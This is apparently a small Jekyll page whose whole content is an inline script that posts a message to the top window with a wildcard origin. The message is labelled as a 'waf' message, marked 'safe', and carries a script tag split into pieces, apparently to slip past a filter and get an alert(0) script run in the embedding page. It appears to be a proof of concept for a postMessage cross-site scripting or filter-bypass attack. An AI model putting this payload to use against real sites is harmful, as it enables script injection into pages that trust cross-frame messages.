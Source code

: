 ```yaml
---
layout: null
title: Postmsg
permalink: /postmsg/
---
```

<script>
window.top.postMessage({
        type:'waf',
        identifier: 'lol',
        str: "<scr"+"ipt>alert(0)</scr"+"ipt>",
        safe: true
},'*');
</script>
